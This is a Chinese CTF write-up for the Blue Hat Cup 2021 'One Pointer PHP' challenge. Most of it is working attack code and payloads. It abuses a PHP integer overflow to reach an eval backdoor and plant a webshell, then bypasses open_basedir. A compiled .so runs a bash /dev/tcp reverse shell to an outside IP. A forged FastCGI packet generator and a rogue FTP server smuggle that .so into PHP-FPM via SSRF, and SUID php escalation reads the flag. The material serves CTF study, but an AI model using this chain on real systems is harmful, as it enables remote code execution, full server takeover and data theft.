






# 蓝帽杯2021-One-Pointer-PHP

参考文章：

PHP-FPM rce攻击 https://zhuanlan.zhihu.com/p/84408404

蓝帽杯2021 One Pointer PHP： https://blog.csdn.net/qq_45619909/article/details/121484875

---

下载附件web.zip，解压后有两个文件，分别是user.php、add_api.php

user.php：

```
<?php
class User{
	public $count;
}
?>
```

add_api.php:

```
<?php
include "user.php";
if($user=unserialize($_COOKIE["data"])){
	$count[++$user->count]=1;
	if($count[]=1){
		$user->count+=1;
		setcookie("data",serialize($user));
	}else{
		eval($_GET["backdoor"]);
	}
}else{
	$user=new User;
	$user->count=1;
	setcookie("data",serialize($user));
}
?>
```

## 整数溢出

add_api.php包含user.php，并且将Cookie里的data反序列化为user对象，将user对象，将user对象，将user里的count值+1作为count的下标，并给此元素赋值为1。
随后，进行if语句判断，count[]=1的意思就是给此数组末尾添加一个元素，值为1。

这里我们先将count赋值为**最大值-1**的数字，那么经历自增后，count即为最大值，

然后再进行$count[]=1操作，由于数组已经达到最大值了，数组末尾无法添加元素，所以此操作出错，执行else语句。

我们便可以RCE。不同的操作系统PHP最大值是不一样的，32位上为2147483647，64位上为9223372036854775807，所以这里我们应该设置count为9223372036854775806

在本地测试一下：

```
<?php
$n = 9223372036854775806;
$a[++$n] = 1;

if($a[]=1)
    echo "yes";
else
    echo "no";
?>

```

输出结果：

```
E:\CTF\phpstudy\phpstudy_pro\Extensions\php\php7.3.4nts\php.exe E:\CTF\newphp\test2.php
PHP Warning:  Cannot add element to the array as the next element is already occupied in E:\CTF\newphp\test2.php on line 5

Warning: Cannot add element to the array as the next element is already occupied in E:\CTF\newphp\test2.php on line 5
no
```

成功执行else语句

---

构造序列化字符串

```
<?php
    class User
    {
        public $count=9223372036854775806;
    }
    echo urlencode(serialize(new User));
?>


# O%3A4%3A%22User%22%3A1%3A%7Bs%3A5%3A%22count%22%3Bi%3A9223372036854775806%3B%7D
```

然后getshell

```
?backdoor=eval($_POST[1]);

post：
1=phpinfo();

Cookie：data=O%3A4%3A%22User%22%3A1%3A%7Bs%3A5%3A%22count%22%3Bi%3A9223372036854775806%3B%7D
```

## Bypass open_basedir

查看phpinfo



然后查看disable_functions



禁用了很多方法和类

然后发现对open_basedir做出了限制，用蚁剑连接webshell，注意除了url和密码以外还要在请求信息里添加Cookie

```
open_basedir	/var/www/html	/var/www/html
```



用蚁剑绕过open_basedir

或者手动绕过

```
/add_api.php?backdoor=mkdir('temp');chdir('temp');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');print_r(scandir('/'));
```

然后发现根目录有flag但是没法输出，所以应该要提权

---

##  发现PHP-FPM服务



猜测是要打FPM，FPM拓展就是一个处理解析php-fastcgi数据的应用拓展

但是我们并不知道fpm监听的命令端口是什么, 所以读取/proc/self中的文件查看一下当前进程的信息

/proc/self下的一些文件

```
1.cmdline(文件)
    cmdline 文件存储着启动当前进程的完整命令，但僵尸进程目录中的此文件不包含任何信息。可以通过查看cmdline目录获取启动指定进程的完整命令
我们可以使用爆破file_get_contents('/proc/§§/cmdline');的方法得到全部当前执行的程序
2.cwd(目录软链接)
    cwd 文件是一个指向当前进程运行目录的符号链接。可以通过查看cwd文件获取目标指定进程环境的运行目录(就是一个目录的软链接)
3.exe(当前进程的可执行文件)
    exe 是一个指向启动当前进程的可执行文件（完整路径）的符号链接。通过exe文件我们可以获得指定进程的可执行文件的完整路径
4.environ(文件)
    environ文件存储着当前进程的环境变量列表，彼此间用空字符（NULL）隔开，变量用大写字母表示，其值用小写字母表示。可以通过查看environ目录来获取指定进程的环境变量信息：
5.fd
    fd是一个目录，里面包含着当前进程打开的每一个文件的描述符（file descriptor）差不多就是路径啦，这些文件描述符是指向实际文件的一个符号连接，即每个通过这个进程打开的文件都会显示在这里。所以我们可以通过fd目录的文件获取进程，从而打开每个文件的路径以及文件内容
6.maps(文件)
    /proc/meminfo可以看到整个系统内存消耗情况,基于里面信息能大概判断泄露的内存的属性，是哪个区域在泄漏、对应哪个文件。辅助工具procmem输出更可读的maps信息
```

/proc/self/maps



到运行了php-fpm外还有一个easy_bypass.so文件

或者查看/usr/local/etc/php/php.ini

在输出中我们可以看到`extension=easy_bypass.so`这是加载了异常so文件

在这里看到了`include /etc/nginx/sites-enabled/*;`，那直接去读nginx的默认配置

```
/etc/nginx/sites-enabled/default
```



发现开着FastCGI服务，所以可以确定是未授权打FPM RCE

nginx通过fastcgi协议与php-fpm通信。那么理论上，我们可以伪造fastcgi协议包，欺骗php-fpm进程，从而执行任意代码

---

## 编写so拓展

反弹shell的so

evilso.c

```
#define _GNU_SOURCE
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

__attribute__ ((__constructor__)) void preload (void){
    system("bash -c 'bash -i >& /dev/tcp/10.88.14.252/8888 0>&1'");
}

```

编译：`gcc evilso.c -fPIC -shared -o evilso.so`，使用Linux编译并上传至站点目录

---

## 编写文件处理

写一个接收文件的php文件

file.php

```
<?php
    $file = $_GET['file'] ?? '/tmp/file';
    $data = $_GET['data'] ?? ':)';
    echo($file."</br>".$data."</br>");
    var_dump(file_put_contents($file, $data));
?>
```

然后也上传到网站根目录下

---

## 伪造恶意FastCGI请求

伪造请求的代码，修改几个配置、路径

```
<?php
/**
 * Note : Code is released under the GNU LGPL
 *
 * Please do not change the header of this file
 *
 * This library is free software; you can redistribute it and/or modify it under the terms of the GNU
 * Lesser General Public License as published by the Free Software Foundation; either version 2 of
 * the License, or (at your option) any later version.
 *
 * This library is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY;
 * without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
 *
 * See the GNU Lesser General Public License for more details.
 */
/**
 * Handles communication with a FastCGI application
 *
 * @author      Pierrick Charron <pierrick@webstart.fr>
 * @version     1.0
 */
class FCGIClient
{
    const VERSION_1            = 1;
    const BEGIN_REQUEST        = 1;
    const ABORT_REQUEST        = 2;
    const END_REQUEST          = 3;
    const PARAMS               = 4;
    const STDIN                = 5;
    const STDOUT               = 6;
    const STDERR               = 7;
    const DATA                 = 8;
    const GET_VALUES           = 9;
    const GET_VALUES_RESULT    = 10;
    const UNKNOWN_TYPE         = 11;
    const MAXTYPE              = self::UNKNOWN_TYPE;
    const RESPONDER            = 1;
    const AUTHORIZER           = 2;
    const FILTER               = 3;
    const REQUEST_COMPLETE     = 0;
    const CANT_MPX_CONN        = 1;
    const OVERLOADED           = 2;
    const UNKNOWN_ROLE         = 3;
    const MAX_CONNS            = 'MAX_CONNS';
    const MAX_REQS             = 'MAX_REQS';
    const MPXS_CONNS           = 'MPXS_CONNS';
    const HEADER_LEN           = 8;
    /**
     * Socket
     * @var Resource
     */
    private $_sock = null;
    /**
     * Host
     * @var String
     */
    private $_host = null;
    /**
     * Port
     * @var Integer
     */
    private $_port = null;
    /**
     * Keep Alive
     * @var Boolean
     */
    private $_keepAlive = false;
    /**
     * Constructor
     *
     * @param String $host Host of the FastCGI application
     * @param Integer $port Port of the FastCGI application
     */
    public function __construct($host, $port = 9001) // and default value for port, just for unixdomain socket
    {
        $this->_host = $host;
        $this->_port = $port;
    }
    /**
     * Define whether or not the FastCGI application should keep the connection
     * alive at the end of a request
     *
     * @param Boolean $b true if the connection should stay alive, false otherwise
     */
    public function setKeepAlive($b)
    {
        $this->_keepAlive = (boolean)$b;
        if (!$this->_keepAlive && $this->_sock) {
            fclose($this->_sock);
        }
    }
    /**
     * Get the keep alive status
     *
     * @return Boolean true if the connection should stay alive, false otherwise
     */
    public function getKeepAlive()
    {
        return $this->_keepAlive;
    }
    /**
     * Create a connection to the FastCGI application
     */
    private function connect()
    {
        if (!$this->_sock) {
            //$this->_sock = fsockopen($this->_host, $this->_port, $errno, $errstr, 5);
            $this->_sock = stream_socket_client($this->_host, $errno, $errstr, 5);
            if (!$this->_sock) {
                throw new Exception('Unable to connect to FastCGI application');
            }
        }
    }
    /**
     * Build a FastCGI packet
     *
     * @param Integer $type Type of the packet
     * @param String $content Content of the packet
     * @param Integer $requestId RequestId
     */
    private function buildPacket($type, $content, $requestId = 1)
    {
        $clen = strlen($content);
        return chr(self::VERSION_1)         /* version */
            . chr($type)                    /* type */
            . chr(($requestId >> 8) & 0xFF) /* requestIdB1 */
            . chr($requestId & 0xFF)        /* requestIdB0 */
            . chr(($clen >> 8 ) & 0xFF)     /* contentLengthB1 */
            . chr($clen & 0xFF)             /* contentLengthB0 */
            . chr(0)                        /* paddingLength */
            . chr(0)                        /* reserved */
            . $content;                     /* content */
    }
    /**
     * Build an FastCGI Name value pair
     *
     * @param String $name Name
     * @param String $value Value
     * @return String FastCGI Name value pair
     */
    private function buildNvpair($name, $value)
    {
        $nlen = strlen($name);
        $vlen = strlen($value);
        if ($nlen < 128) {
            /* nameLengthB0 */
            $nvpair = chr($nlen);
        } else {
            /* nameLengthB3 & nameLengthB2 & nameLengthB1 & nameLengthB0 */
            $nvpair = chr(($nlen >> 24) | 0x80) . chr(($nlen >> 16) & 0xFF) . chr(($nlen >> 8) & 0xFF) . chr($nlen & 0xFF);
        }
        if ($vlen < 128) {
            /* valueLengthB0 */
            $nvpair .= chr($vlen);
        } else {
            /* valueLengthB3 & valueLengthB2 & valueLengthB1 & valueLengthB0 */
            $nvpair .= chr(($vlen >> 24) | 0x80) . chr(($vlen >> 16) & 0xFF) . chr(($vlen >> 8) & 0xFF) . chr($vlen & 0xFF);
        }
        /* nameData & valueData */
        return $nvpair . $name . $value;
    }
    /**
     * Read a set of FastCGI Name value pairs
     *
     * @param String $data Data containing the set of FastCGI NVPair
     * @return array of NVPair
     */
    private function readNvpair($data, $length = null)
    {
        $array = array();
        if ($length === null) {
            $length = strlen($data);
        }
        $p = 0;
        while ($p != $length) {
            $nlen = ord($data{$p++});
            if ($nlen >= 128) {
                $nlen = ($nlen & 0x7F << 24);
                $nlen |= (ord($data{$p++}) << 16);
                $nlen |= (ord($data{$p++}) << 8);
                $nlen |= (ord($data{$p++}));
            }
            $vlen = ord($data{$p++});
            if ($vlen >= 128) {
                $vlen = ($nlen & 0x7F << 24);
                $vlen |= (ord($data{$p++}) << 16);
                $vlen |= (ord($data{$p++}) << 8);
                $vlen |= (ord($data{$p++}));
            }
            $array[substr($data, $p, $nlen)] = substr($data, $p+$nlen, $vlen);
            $p += ($nlen + $vlen);
        }
        return $array;
    }
    /**
     * Decode a FastCGI Packet
     *
     * @param String $data String containing all the packet
     * @return array
     */
    private function decodePacketHeader($data)
    {
        $ret = array();
        $ret['version']       = ord($data{0});
        $ret['type']          = ord($data{1});
        $ret['requestId']     = (ord($data{2}) << 8) + ord($data{3});
        $ret['contentLength'] = (ord($data{4}) << 8) + ord($data{5});
        $ret['paddingLength'] = ord($data{6});
        $ret['reserved']      = ord($data{7});
        return $ret;
    }
    /**
     * Read a FastCGI Packet
     *
     * @return array
     */
    private function readPacket()
    {
        if ($packet = fread($this->_sock, self::HEADER_LEN)) {
            $resp = $this->decodePacketHeader($packet);
            $resp['content'] = '';
            if ($resp['contentLength']) {
                $len  = $resp['contentLength'];
                while ($len && $buf=fread($this->_sock, $len)) {
                    $len -= strlen($buf);
                    $resp['content'] .= $buf;
                }
            }
            if ($resp['paddingLength']) {
                $buf=fread($this->_sock, $resp['paddingLength']);
            }
            return $resp;
        } else {
            return false;
        }
    }
    /**
     * Get Informations on the FastCGI application
     *
     * @param array $requestedInfo information to retrieve
     * @return array
     */
    public function getValues(array $requestedInfo)
    {
        $this->connect();
        $request = '';
        foreach ($requestedInfo as $info) {
            $request .= $this->buildNvpair($info, '');
        }
        fwrite($this->_sock, $this->buildPacket(self::GET_VALUES, $request, 0));
        $resp = $this->readPacket();
        if ($resp['type'] == self::GET_VALUES_RESULT) {
            return $this->readNvpair($resp['content'], $resp['length']);
        } else {
            throw new Exception('Unexpected response type, expecting GET_VALUES_RESULT');
        }
    }
    /**
     * Execute a request to the FastCGI application
     *
     * @param array $params Array of parameters
     * @param String $stdin Content
     * @return String
     */
    public function request(array $params, $stdin)
    {
        $response = '';
//        $this->connect();
        $request = $this->buildPacket(self::BEGIN_REQUEST, chr(0) . chr(self::RESPONDER) . chr((int) $this->_keepAlive) . str_repeat(chr(0), 5));
        $paramsRequest = '';
        foreach ($params as $key => $value) {
            $paramsRequest .= $this->buildNvpair($key, $value);
        }
        if ($paramsRequest) {
            $request .= $this->buildPacket(self::PARAMS, $paramsRequest);
        }
        $request .= $this->buildPacket(self::PARAMS, '');
        if ($stdin) {
            $request .= $this->buildPacket(self::STDIN, $stdin);
        }
        $request .= $this->buildPacket(self::STDIN, '');
        echo('?file=ftp://ip:9999/&data='.urlencode($request));
//        fwrite($this->_sock, $request);
//        do {
//            $resp = $this->readPacket();
//            if ($resp['type'] == self::STDOUT || $resp['type'] == self::STDERR) {
//                $response .= $resp['content'];
//            }
//        } while ($resp && $resp['type'] != self::END_REQUEST);
//        var_dump($resp);
//        if (!is_array($resp)) {
//            throw new Exception('Bad request');
//        }
//        switch (ord($resp['content']{4})) {
//            case self::CANT_MPX_CONN:
//                throw new Exception('This app can\'t multiplex [CANT_MPX_CONN]');
//                break;
//            case self::OVERLOADED:
//                throw new Exception('New request rejected; too busy [OVERLOADED]');
//                break;
//            case self::UNKNOWN_ROLE:
//                throw new Exception('Role value not known [UNKNOWN_ROLE]');
//                break;
//            case self::REQUEST_COMPLETE:
//                return $response;
//        }
    }
}
?>
<?php
// real exploit start here
//if (!isset($_REQUEST['cmd'])) {
//    die("Check your input\n");
//}
//if (!isset($_REQUEST['filepath'])) {
//    $filepath = __FILE__;
//}else{
//    $filepath = $_REQUEST['filepath'];
//}

$filepath = "/var/www/html/add_api.php";
$req = '/'.basename($filepath);
$uri = $req .'?'.'command=whoami';
$client = new FCGIClient("unix:///var/run/php-fpm.sock", -1);
$code = "<?php system(\$_REQUEST['command']); phpinfo(); ?>"; // php payload -- Doesnt do anything
$php_value = "unserialize_callback_func = system\nextension_dir = /var/www/html\nextension = evilso.so\ndisable_classes = \ndisable_functions = \nallow_url_include = On\nopen_basedir = /\nauto_prepend_file = "; // extension_dir即为.so文件所在目录
$params = array(
    'GATEWAY_INTERFACE' => 'FastCGI/1.0',
    'REQUEST_METHOD'    => 'POST',
    'SCRIPT_FILENAME'   => $filepath,
    'SCRIPT_NAME'       => $req,
    'QUERY_STRING'      => 'command=whoami',
    'REQUEST_URI'       => $uri,
    'DOCUMENT_URI'      => $req,
#'DOCUMENT_ROOT'     => '/',
    'PHP_VALUE'         => $php_value,
    'SERVER_SOFTWARE'   => 'ctfking/Tajang',
    'REMOTE_ADDR'       => '127.0.0.1',
    'REMOTE_PORT'       => '9001', // 找准服务端口
    'SERVER_ADDR'       => '127.0.0.1',
    'SERVER_PORT'       => '80',
    'SERVER_NAME'       => 'localhost',
    'SERVER_PROTOCOL'   => 'HTTP/1.1',
    'CONTENT_LENGTH'    => strlen($code)
);
// print_r($_REQUEST);
// print_r($params);
//echo "Call: $uri\n\n";
echo $client->request($params, $code)."\n";
?>

```

运行此文件，此文件输出的payload

```
?file=?file=ftp://ip:9999/&data=%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%02H%00%00%11%0BGATEWAY_INTERFACEFastCGI%2F1.0%0E%04REQUEST_METHODPOST%0F%19SCRIPT_FILENAME%2Fvar%2Fwww%2Fhtml%2Fadd_api.php%0B%0CSCRIPT_NAME%2Fadd_api.php%0C%0EQUERY_STRINGcommand%3Dwhoami%0B%1BREQUEST_URI%2Fadd_api.php%3Fcommand%3Dwhoami%0C%0CDOCUMENT_URI%2Fadd_api.php%09%80%00%00%BBPHP_VALUEunserialize_callback_func+%3D+system%0Aextension_dir+%3D+%2Fvar%2Fwww%2Fhtml%0Aextension+%3D+evilso.so%0Adisable_classes+%3D+%0Adisable_functions+%3D+%0Aallow_url_include+%3D+On%0Aopen_basedir+%3D+%2F%0Aauto_prepend_file+%3D+%0F%0ESERVER_SOFTWAREctfking%2FTajang%0B%09REMOTE_ADDR127.0.0.1%0B%04REMOTE_PORT9001%0B%09SERVER_ADDR127.0.0.1%0B%02SERVER_PORT80%0B%09SERVER_NAMElocalhost%0F%08SERVER_PROTOCOLHTTP%2F1.1%0E%02CONTENT_LENGTH49%01%04%00%01%00%00%00%00%01%05%00%01%001%00%00%3C%3Fphp+system%28%24_REQUEST%5B%27command%27%5D%29%3B+phpinfo%28%29%3B+%3F%3E%01%05%00%01%00%00%00%00
```

---

## 运行恶意FTP服务

在公网VPS上运行以下代码，注意云服务器需要打开防火墙里的端口，并且在有服务使用端口时才会开放端口，其他时候默认关闭

```
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
s.bind(('0.0.0.0', 9999))
s.listen(1)
conn, addr = s.accept()
conn.send(b'220 welcome\n')
#Service ready for new user.
#Client send anonymous username
#USER anonymous
conn.send(b'331 Please specify the password.\n')
#User name okay, need password.
#Client send anonymous password.
#PASS anonymous
conn.send(b'230 Login successful.\n')
#User logged in, proceed. Logged out if appropriate.
#TYPE I
conn.send(b'200 Switching to Binary mode.\n')
#Size /
conn.send(b'550 Could not get the file size.\n')
#EPSV (1)
conn.send(b'150 ok\n')
#PASV
conn.send(b'227 Entering Extended Passive Mode (127,0,0,1,0,9001)\n') #STOR / (2)
conn.send(b'150 Permission denied.\n')
#QUIT
conn.send(b'221 Goodbye.\n')
conn.close()
```

这个恶意ftp服务就是使用9999端口

## payload使用

vps运行恶意ftp程序，再开一个终端开启监听，再执行一遍payload

```
/file.php?file=ftp://10.88.14.252:9999/&data=%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%02H%00%00%11%0BGATEWAY_INTERFACEFastCGI%2F1.0%0E%04REQUEST_METHODPOST%0F%19SCRIPT_FILENAME%2Fvar%2Fwww%2Fhtml%2Fadd_api.php%0B%0CSCRIPT_NAME%2Fadd_api.php%0C%0EQUERY_STRINGcommand%3Dwhoami%0B%1BREQUEST_URI%2Fadd_api.php%3Fcommand%3Dwhoami%0C%0CDOCUMENT_URI%2Fadd_api.php%09%80%00%00%BBPHP_VALUEunserialize_callback_func+%3D+system%0Aextension_dir+%3D+%2Fvar%2Fwww%2Fhtml%0Aextension+%3D+evilso.so%0Adisable_classes+%3D+%0Adisable_functions+%3D+%0Aallow_url_include+%3D+On%0Aopen_basedir+%3D+%2F%0Aauto_prepend_file+%3D+%0F%0ESERVER_SOFTWAREctfking%2FTajang%0B%09REMOTE_ADDR127.0.0.1%0B%04REMOTE_PORT9001%0B%09SERVER_ADDR127.0.0.1%0B%02SERVER_PORT80%0B%09SERVER_NAMElocalhost%0F%08SERVER_PROTOCOLHTTP%2F1.1%0E%02CONTENT_LENGTH49%01%04%00%01%00%00%00%00%01%05%00%01%001%00%00%3C%3Fphp+system%28%24_REQUEST%5B%27command%27%5D%29%3B+phpinfo%28%29%3B+%3F%3E%01%05%00%01%00%00%00%00
```

成功反弹shell，因为没有权限的原因，所以我们仍然无法读取flag，这里我们需要提权，最常见的就是suid提权，使用`find / -perm -u=s -type f 2>/dev/null`查看具有suid权限的文件，这个要等一会才能出来。

发现

php就有权限，那么可以直接`php -a`进入交互模式，直接读取flag文件，注意不要直接读取flag，还是要绕过openbase_dir的，你可以上传一个php文件，直接运行，也可以在交互模式下绕过并读取，建议使用文件，方便点，我这里使用的交互模式

```
find / -perm -u=s -type f 2>/dev/null
php -a
mkdir('temp');chdir('temp');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');echo file_get_contents('/flag');
```

## 总结:

靶机通过ftp协议向FTP服务器发出请求连接成功后奖建立数据连接通道, 采用被动模式连接, 由FTP服务器(ftp.py)发送用于传输数据的(FTPIP:port)通道, 但是通道被指定为了`127.0.0.1:9001`所以数据发到了FPM服务中并被处理, 到这里就是SSRF了

然后通过构造符合PHP-FPM服务解析的fastgui数据, 然后PHP-FPM解析数据流并按照规则执行命令, 最终执行了system(‘evilso.so’)反弹shell


